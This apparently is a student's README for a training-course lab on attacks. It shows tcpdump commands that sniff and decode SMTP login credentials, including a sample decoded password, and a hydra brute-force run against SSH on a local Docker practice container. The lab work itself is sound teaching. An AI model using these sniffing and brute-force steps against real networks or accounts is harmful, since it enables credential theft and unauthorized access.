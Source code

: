 # ALX SE PROGRAM

#### Project : Attack is the best defense ``DevOps - Scripting - Hacking``

#### Resources:
  **man or help:**
```
	tcpdump
	hydra
	telnet
	docker
```

##### Task 0:
Executing the script ``user_authenticating_into_server`` locally on your machine and, using ``tcpdump``, sniff the network to find the password.
You can download the script ``user_authenticating_into_server`` [here](./user_authenticating_into_server).

**HOW TO DO**
- Using tcpdump command with superuser privileges, we start capturing network packets on port 587 and save them to the "packets_587.pcap" file.
``sudo tcpdump port 587 -w packets_587.pcap``
- Use a combination of strings and sed commands to extract text data from the packets capture file
``strings tcp_dump.pcap | sed -n '/auth login/,$p'``
![tcpdump_output](./tcpdump.png)

- The output is encoded in base64, when decoded it translates to:
```
	VXNlcm5hbWU6         => Username:
	bXlsb2dpbg==         => mylogon
	UGFzc3dvcmQ6         => Password:
	bXlwYXNzd29yZDk4OTgh => mypassword9989!
```

#### Taksk 1:
Password-based authentication systems can be easily broken by using a dictionary attack (you’ll have to find your own password dictionary). Let’s try it on an SSH account.
**HOW TO DO**
- Install Docker
- Pull and run the Docker image sylvainkalache/264-1:
``	docker run -p 2222:22 -d -ti sylvainkalache/264-1``
```
- List and display information about running containers on a Docker host:
	docker ps
	CONTAINER ID
	a2312049fc25
```
- To run a command inside a running Docker container:
``	docker exec -i a2312049fc25 hostname``
- Install hydra on the Docker container:
```
	sudo apt-get update
	sudo apt-get install -y hydra
```
- Find a password dictionary (you might need multiple of them), this one is worked for me:
> https://github.com/duyet/bruteforce-database/blob/master/7-more-passwords.txt
- Hint: the password is 11 characters long, thus we can use sed command to remove lines from a file that do not contain exactly 11 characters:
``	sed -i '/^.\{11\}$/!d' 2151220-passwords.txt > passwords``
- use hydra to try to brute force the account sylvain via SSH on the Docker container, accessing the SSH account via IP 127.0.0.1 and port 2222:
``	hydra -l sylvain -P passwords -I ssh://127.0.0.1:2222``
![hydra_output](./hydra.png)


#### AUTHOR
> Ahmed RIFKI
